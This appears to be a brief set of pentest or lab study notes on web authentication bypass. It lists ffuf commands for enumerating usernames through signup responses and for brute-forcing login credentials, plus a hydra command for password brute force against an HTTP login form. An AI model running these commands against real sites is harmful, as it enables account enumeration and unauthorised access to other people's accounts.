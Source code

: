 ## Authentication Bypass

<pre>ffuf -w wordlist -X POST -d data -H header -u url -mr mwssage</pre>
<pre>ffuf -w wordlist -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u url/signup -mr "username already exists"</pre>
<pre>ffuf -w username:W1,password:W2 -X POST -d "username=W1&email=x&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u url/login -fc 200</pre>
<pre>hydra -l <username> -P passwordlist ip http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V</pre>
